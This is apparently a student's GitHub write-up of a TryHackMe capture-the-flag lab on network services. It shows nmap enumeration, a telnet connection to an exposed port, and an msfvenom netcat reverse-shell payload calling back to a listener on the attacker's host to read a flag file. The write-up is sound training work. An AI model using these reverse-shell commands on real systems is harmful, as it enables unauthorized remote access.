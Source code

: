 ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/f979b8e5-5f41-42d5-8bf0-a02f863ecc8c)![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/102683de-0cb6-454e-87cd-c3479e87a596)# Documentation: TryHackMe Cyber Defense #02

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenges
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access target's assets by exploiting vulnerable services to exfiltrate valuable data

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**:
    - Port Scanning:
    	- `nmap -A 10.10.177.199`
         - Shows that top 1000 ports are not open
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/26a37547-6cf4-4d6c-9011-fb3af482edcd)
      - `nmap -A -p 8000-9000 10.10.177.199` -vv
         - Scanned ports between 8000-9000 and discovered an open port 8012/tcp
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/4ce2baa3-4768-4b60-8d4b-9ac6d15922f9)

  - **Findings**:
	The open port is 8012
    	A possible username might be Skidy
        - Service might be a backdoor 

### 3.3 Exploitation
- **Vulnerability Identification**: Telnet vulnerability
  - **Techniques Used**:  Exploit using netcat reverse shell payload in the telnet server

- **Exploitation Process**:
  
- Enter `telnet 10.10.177.199 8012`  now you can connect to the telnet server using the discovered port 8012
   	
![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/e6bcd72f-8053-46dc-837c-6ca396e0d149)

- Enter `msfvenom -p cmd/unix/reverse_netcat lhost=10.17.64.194 lport=4444 R` to generate a reverse shell payload using msfvenom
	  
![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/56f3c19c-bd00-4d59-98f6-7f47da11b424)

- Enter `nc -lvp 4444` to start netcat lister to listen for inbound connection and see data
![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/cef1919e-40fc-4e27-b83b-7e1cbd3e0f18)

- Copy the payload into the telnet server CLI and press enter
![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/09af501b-3792-4d1d-9fa7-0dc51f9f299d)

- Go to the netcat lister and enter `ls` it will show the file flag.txt
![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/bad9f0bf-77d9-4770-90d3-5240f7384d8a)

- Enter `cat flag.txt` to capture the flag
![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/d4896955-1e10-4cb3-9576-65c33d4684c5)


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

